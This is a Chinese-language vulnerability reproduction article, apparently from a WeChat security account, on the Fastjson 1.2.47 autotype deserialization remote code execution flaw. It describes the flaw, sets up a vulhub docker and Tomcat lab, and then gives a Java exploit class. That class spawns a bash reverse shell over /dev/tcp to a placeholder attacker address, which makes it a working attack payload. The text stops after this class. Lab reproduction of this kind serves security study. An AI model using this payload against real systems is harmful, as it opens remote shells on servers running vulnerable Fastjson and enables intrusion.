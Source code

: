 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/DULDnKo4mD3ZEKWZm7ZIkg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKV5smZ8qw3Cz08wJlPqAQPEQmribeeNZDc3837OUb4icSFERS0XX7bwMPA/640?wx_fmt=jpeg)

一、漏洞描述

Fastjson 是阿里巴巴公司开源的一款 json 解析器，其性能优越，被广泛应用于各大厂商的 Java 项目中。Fastjson 提供了 autotype 功能，允许用户在反序列化数据中通过 “@type” 指定反序列化的类型，其次，Fastjson 自定义的反序列化机制时会调用指定类中的 setter 方法及部分 getter 方法，那么当组件开启了 autotype 功能并且反序列化不可信数据时，攻击者可以构造数据，使目标应用的代码执行流程进入特定类的特定 setter 或者 getter 方法中，若指定类的指定方法中有可被恶意利用的逻辑（也就是通常所指的“Gadget”），则会造成一些严重的安全问题。并且在 Fastjson 1.2.47 及以下版本中，利用其缓存机制可实现对未开启 autotype 功能的绕过。

二、影响版本

Fastjson1.2.47 以及之前的版本

三、实验环境

docker

```
https://github.com/vulhub/vulhub/tree/master/fastjson/1.2.47-rce
docker-compose up -d
```

Tomcat 搭建（公众号后台回复 “Fastjson” 获取环境和 EXP）

位置 tomcat/webapps 下面

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKV4ic0Lt9fMdaytQnI3ibNE5NFgFTOn3qAOVtRtAxJSj53ibcPYIw3AAqgA/640?wx_fmt=png)

启动 tomcat

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKVsZLlZiatyYOl3tA4iayxoG6nS6YL61Q6Pjyh5p0RPvOo2LmtOqA5p6hA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKVChbUmXA4icO9omswkgPwLeG7MDW9Rbh5GCe19DGAAfuice6uhibNhB0dg/640?wx_fmt=png)

四、漏洞复现  

将下面 exp 保存为 Exploit.java 文件

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{
    public Exploit() throws Exception {
        //Process p = Runtime.getRuntime().exec(new String[]{"cmd","/c","calc.exe"});
      Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/XX.XX.XX.XX/34567;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));

        String line;
        while((line = reader.readLine()) != null) {
            System.out.println(line);
        }

        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    }

    public static void main(String[] args) throws Exception {
    }
}
```

